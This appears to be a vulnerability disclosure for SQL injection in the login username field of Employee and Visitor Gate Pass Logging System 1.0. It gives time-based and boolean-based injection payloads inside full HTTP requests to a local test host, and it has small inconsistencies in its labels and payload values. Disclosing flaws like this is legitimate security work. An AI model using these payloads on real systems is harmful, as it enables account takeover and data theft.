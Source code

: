 ## BUG_Author: 
**ZongXin Li**

## Affected version: 
EMPLOYEE AND VISITOR GATE PASS LOGGING SYSTEM - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/classes/Login.php

## Description:
The system Employee and Visitor Gate Pass Logging 1.0 is vulnerable to SQL Injection via /employee_gatepass/classes/Login.php.
The parameter `username` is not sanitized correctly. The malicious actor can use this vulnerability to manipulate the administrator account of the systemand can take full control of the information about the other accounts.
Status: CRITICAL

GET parameter 'username' exists SQL injection vulnerability

Payload1:`username=admin' and (select 2 from (select(sleep(10)))x) and 'x'='x&password=admin123`

```
POST /employee_gatepass/classes/login.php?f=login HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin' and (select 2 from (select(sleep(10)))x) and 'x'='x&password=admin123
```

The server's response time is 10 seconds

![image-20230418110724744](./SQLi-1.png)

Payload2:`username=admin'and left(version(),6)='5.7.27' AND 'ledo'='ledo&password=admin123`

```
POST /employee_gatepass/classes/login.php?f=login HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin'and left(version(),6)='5.7.26' AND 'ledo'='ledo&password=admin123
```

Error injection success

When I enter the version number 5.7.26, it returns "success". Error statement when typing 5.7.27

![image-20230418112554085](./SQLi-2.png)

![image-20230418112616037](./SQLi-3.png)
